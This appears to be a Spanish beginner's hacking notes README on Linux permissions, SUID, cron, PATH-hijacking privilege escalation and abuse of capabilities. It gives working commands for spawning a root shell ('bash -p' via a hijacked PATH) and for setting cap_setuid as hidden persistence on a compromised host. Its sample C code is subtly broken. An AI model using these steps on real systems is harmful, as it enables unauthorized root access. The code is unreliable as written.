# HACKING BÁSICO
## Índice
<ol>
    <li> <a href="https://github.com/BySocram/hacking/edit/main/README.md#material-de-apoyo"> Material de apoyo </a> </li>
    <li> <a href="https://github.com/BySocram/hacking/edit/main/README.md#conceptos-b%C3%A1sicos"> Conceptos Básicos </a> </li>
    <li> <a href="https://github.com/BySocram/hacking/edit/main/README.md#pentesting"> Pentesting </a> </li>
</ol>

## Material de apoyo:
### Repositorios
<a href="https://gtfobins.github.io/"> GTFObins </a>

### Información
<a href="https://culturacion.com/como-crear-cuentas-de-usuario-en-linux/">  Guía de creación de usuarios en linux </a> <br>
<a href="https://www.pedroventura.com/linux/administracion-de-usuarios-en-linux-crear-borrar-modificar-usuarios-y-grupos/"> Administración de usuarios en linux </a> <br>
<a href="https://blog.desdelinux.net/permisos-basicos-en-gnulinux-con-chmod/"> Permisos básicos en GNU/Linux con chmod </a> <br>
<a href="https://blog.desdelinux.net/permisos-y-derechos-en-linux/"> Permisos y derechos en Linux </a> <br>
<a href="https://mural.uv.es/oshuso/8339_permisos_y_atributos.html"> Permisos y atributos </a> <br>
<a href="https://www.ochobitshacenunbyte.com/2019/06/17/permisos-especiales-en-linux-sticky-bit-suid-y-sgid/"> Permisos especiales en Linux: Sticky Bit, SUID y SGID </a> <br>
<a href="https://www.ibiblio.org/pub/Linux/docs/LuCaS/Manuales-LuCAS/doc-curso-salamanca-admin-avanzada/html/ch08s06.html"> El permiso SUID </a> <br>
<a href="https://www.redeszone.net/tutoriales/servidores/cron-crontab-linux-programar-tareas/"> Como utilizar Cron y Crontab en Linux </a> <br>
<a href="https://man7.org/linux/man-pages/man7/capabilities.7.html"> Capabilites - Linux manual page </a> <br>
<a href="https://www.incibe-cert.es/blog/linux-capabilities"> Linux kernel capabilities - No solo de sudo vive root </a> <br>
<a href="https://deephacking.tech/path-hijacking-y-library-hijacking/"> Path Hijaking y Library Hijacking </a> <br>

## Conceptos Básicos
### Permisos
    drwxr-xr-x marcos marcos 4.0 KB Mon Dec 26 23:45:52 2022  marcos

  d = type: directory

  rwx r-x r-x <br>
  u&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;g&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;o <br>
  111 101 101 <br>
<br>
  rwx = 111 = 7<br>
  rw- = 110 = 6<br>
  r-x = 101 = 5<br>
  r-- = 100 = 4<br>
  -wx = 011 = 3<br>
  -w- = 010 = 2<br>
  --x = 001 = 1<br>
<br>
  u = owner<br>
  g = group<br>
  o = others<br>
<br>
  r = read permision<br>
  w = write permision<br>
  x = execution permision<br>
  
### Permisos SUID
  El permiso SUID permite a un usuario ejecutar programas con los privilegios del root <br>
  Por ejemplo: EL comando passwd necesita acceder a los ficheros /etc/passwd en modo escritura, <br>
  y solo root puede hacerlo.
  <br>
  Se asignan usando el sigiente comando: <br>
  ```
  chmod 4755 <programa>
  ```
  Estaremos asignando lor privilegios 755 más el privilegio 4 o SUID <br>

### Tarea Cron
  Tarea que se ejecuta a nivel de sistema, a nivel regulares de tiempo.
  ```
  cd /etc/cron.d
  echo "* * * * * root /home/user/file.sh" > tareaCron
  ```
  En este comando nos dirijimos al directorio que se situa en /etc/cron.d donde crearemos nuestra tarea cron. <br>
  Los cinco asteriscos significan que queremos que la tarea se ejecute cada minuto, root significa el usuario que queremos <br>
  que la ejectue y por último tenemos la ruta /home/user/file.sh que es donde está el script en bash que ejecutara la tareaCron. <br>
  
  ### Explotación del PATH Hijaking
  Es una técnica de escalada de privilegios, con la cuál se utiliza el PATH que es una variable que almacena las rutas de los programas <br>
  hasta que encuentra la ruta del programa que hemos ejecutado. <br>
  <br>
  Un ejemplo de Path Hijaking sería el siguiente: <br>

  1. Creamos un programa en c que en este caso llamaremos app.c <br>
  ```
  touch app.c
  nano app.c
  ```
  2. Insertamos el siguiente código.<br>
     Este código saca las 10 primeras lineas del archivo passwd dos veces, la primera vez<br>
     lo hace usando la ruta absoluta del archivo y la seguna vez usando la relativa.
  ```
  #include <studio.sh>
  
  void main(){
  
    setuid(0);
    
    print("\n\n[*] Enseñando las 10 primeras lineas del archivo /etc/passwd usando /usr/bin/head \n\n");
    system("/usr/bin/head /etc/passwd");
    
    print("\n\n[*] Enseñando las 10 primeras lineas del archivo /etc/passwd usando head \n\n");
    system("/etc/passwd");
  
  }
  ```
  3. Compilamos el archivo app.c
  ```
  gcc app.c -o app
  ```
  4. Si le asignamos al programa compilado app el permiso SUID, al ejecutar el binario lo estaremos<br>
  haciendo como el usuario root. De esta forma se podría llevar a cabo el Path Hijacking, y haciendo un <br>
  del binario podríamos identificar que se esta llamando al archivo de forma relativa.
  ```
  chmod 4755 app
  strings app
  ```
  Podemos fijarnos que la respuesta del string nos dice que se esta usando setuid en el código, <br>
  lo que significa que se ejecutará con el usuario UID.<br> <br>
  
  5. Ahora que ya sabemos que se está ejecutando con el usuario UID, vamos a cambiar el PATH añadiendo la <br>
  ruta actual en la cuál vamos a crear un archivo con el nombre del programa que queremos suplantar, en este <br>
  caso el head.
  ```
  export PATH=.:$PATH
  echo "bash -p" > head
  ```
  Lo que hacemos con el primer comando es añadir como primera ruta para buscar los programas el directorio actual <br> (es temporal), después creamos un archivo para suplantar ese programa y que lo detecte el cual contiene un <br>
  comando para entrar como root.
  De esta manera al ejecutar el binario app con permisoso SUID ejecutará el comando head, el PATH buscará en orden <br> el programa en nuestro directorio actual, y ejecutará el código que hemos metido entrando al sistema como root.

### Abuso y explotación de las capabilities
En el caso de que ya se haya comprometido un equipo y hayamos dejado una una persistencia privilegiada, en este caso utilizaremos las capabilities.<br>
Para ver las capabilities que hayan definidas a nivel de sistema utilizamos el siguiente comando:
```
getcap -r / 2>/dev/null
```
Cuando estemos dentro de un equipo y asignemos una capabilite podemos asignar distintos tipos para que a la hora de entrar de nuevo al equipo no tenr <br>
que explotar la misma vulnerabilidad y entrar mas seguramente. Estas pasan desapercibidas ya que no tienen permisos SUID.<br>
En el siguiente enlace podemos ver una web donde muestra distintos tipos de capabilities que podemos crear para luego explotarlas y entrar facilmente:
<a href="https://gtfobins.github.io/#+capabilities"> GTFOBins: Capabilities </a> <br>
Para definir una capabilitie se usa el siguiente comando:
```
setcap cap_setuid+ep /usr/bin/<capabilitie>
```
Para remover una capabilitie se usa el siguiente comando:
```
setcap -r /usr/bin/<capabilitie>
```
## Pentesting
  
  
  
  
  
  
  
  
